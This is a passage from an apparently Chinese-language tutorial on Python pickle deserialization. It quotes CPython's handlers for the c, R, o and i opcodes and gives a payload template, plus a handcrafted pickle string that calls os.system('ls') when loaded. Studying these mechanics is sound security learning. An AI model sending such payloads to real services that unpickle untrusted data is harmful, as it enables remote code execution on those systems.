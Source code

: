 `c`操作符把`find_class()`函数返回的一个类对象压入栈,通过`__import__()`引入了模块并且通过`self.proto`判断pickle版本处理了不同版本的函数名称问题.

##### `R`操作符

源码

```
def load_reduce(self):
    stack = self.stack
    args = stack.pop()#栈顶的元组出栈,把元组赋值给args
    func = stack[-1]
    #stack[-1]是出栈操作,索引值为-1代表最后一个进入列表的元素(反向索引)
    stack[-1] = func(*args)#func出栈,func的返回值进栈
    #'*'操作符用作解包,把元组里的元素作为未知参数传递给func
```

用R操作符构造的payload模板

```
c<module>
<callable>
(<args>
tR.
```

e.g.

```
cos
system #用c操作符引入os.system,也就是把os.system压入栈
(S'ls' #先把MARK压入栈,再把ls压入栈
tR. #t操作符把ls出栈,元组(ls)入栈
    #R操作符把元组作为os.system的参数传入并执行
<=> __import__('os').system(*('ls',))
```

##### `o`操作符

```
def load_obj(self):
    # Stack is ... markobject classobject arg1 arg2 ...
    args = self.pop_mark()
    cls = args.pop(0)
    self._instantiate(cls, args)
```

寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象）

##### `i`操作符

```
def load_inst(self):
    module = self.readline()[:-1].decode("ascii")
    name = self.readline()[:-1].decode("ascii")
    klass = self.find_class(module, name)
    self._instantiate(klass, self.pop_mark())
```
